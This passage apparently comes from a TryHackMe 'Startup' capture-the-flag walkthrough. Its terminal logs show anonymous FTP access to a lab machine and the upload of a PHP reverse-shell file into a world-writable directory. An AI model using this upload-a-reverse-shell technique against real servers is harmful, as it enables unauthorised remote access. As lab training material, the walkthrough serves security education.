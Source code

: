 ```
ftp> mget *
mget ftp? 
200 PORT command successful. Consider using PASV.
550 Failed to open file.
mget important.jpg? 
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for important.jpg (251631 bytes).
226 Transfer complete.
251631 bytes received in 0.59 secs (417.2951 kB/s)
mget notice.txt? 
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for notice.txt (208 bytes).
226 Transfer complete.
208 bytes received in 0.00 secs (140.4737 kB/s)
ftp> cd ftp
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 .
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 ..
226 Directory send OK.
ftp> 
```

`but Maya is looking pretty sus.`

```
kali@kali:~/CTFs/tryhackme/Startup$ ftp 10.10.36.184
Connected to 10.10.36.184.
220 (vsFTPd 3.0.3)
Name (10.10.36.184:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
553 Could not create file.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 .
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 ..
-rw-r--r--    1 0        0               5 Nov 12 04:53 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp
-rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (67.1729 MB/s)
ftp> exit
221 Goodbye.
```
